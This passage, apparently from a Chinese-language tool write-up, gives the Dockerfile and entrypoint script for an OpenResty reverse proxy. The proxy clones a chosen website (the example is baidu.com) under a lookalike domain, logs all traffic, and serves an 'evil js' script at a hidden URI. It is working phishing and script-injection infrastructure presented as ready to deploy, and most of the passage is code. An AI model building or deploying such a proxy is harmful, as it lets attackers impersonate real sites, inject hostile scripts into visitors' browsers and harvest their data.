 ```
                }
        }
        access_log /tmp/pricking/access.log logeverything;
    }
}
```

### Nginx - Dockerfile编写

Dockerfile :

```
FROM openresty/openresty:alpine
ENV PROXY_PASS_HOST www.baidu-proxy.com # 自己的域名
ENV PROXY_SOURCE_HOST www.baidu.com # 要克隆的域名
ENV NGINX_LISTEN_PORT 80 # 监听端口，不建议改动
ENV EVIL_JS_URI b026324c6904b2a9cb4b88d6d61c81d1 # JS虚拟目录名称
WORKDIR /tmp/
COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY docker-entrypoint.sh /tmp/docker-entrypoint.sh
RUN mkdir -p /tmp/pricking/static/ && chmod +x /tmp/docker-entrypoint.sh 
ENTRYPOINT ["/tmp/docker-entrypoint.sh"]
```

通过设置环境变量的值，就能完美克隆任意网站。


docker-entrypoint.sh :

```bash
#!/bin/sh
echo "[+] Replace evil js URI..."

sed -e 's/7276df76835ed2272cc0e59f55e49902/b026324c6904b2a9cb4b88d6d61c81d1/' \
        -e "18s/proxy.payloads.online/$PROXY_PASS_HOST/g" \
        -e "27s/payloads.online/$PROXY_SOURCE_HOST/g" \
        -e "28s/payloads.online/$PROXY_SOURCE_HOST/g" \
        -e "19s/80/$NGINX_LISTEN_PORT/g" /usr/local/openresty/nginx/conf/nginx.conf > /usr/local/openresty/nginx/conf/nginx.conf.new
mv /usr/local/openresty/nginx/conf/nginx.conf.new /usr/local/openresty/nginx/conf/nginx.conf

echo "[+] Replace server name : $PROXY_PASS_HOST"

echo "[+] Listen PORT : $NGINX_LISTEN_PORT"
echo "[+] Proxy Pass Host : $PROXY_SOURCE_HOST"

echo "[+] Evil js URL :  $PROXY_PASS_HOST/$EVIL_JS_URI/static.js"
/usr/local/openresty/nginx/sbin/nginx -g "daemon off;" -c /usr/local/openresty/nginx/conf/nginx.conf
```

### Nginx - docker-compose

我将镜像上传到了Docker镜像源中，可以通过如下docker-compose.yml创建实例：
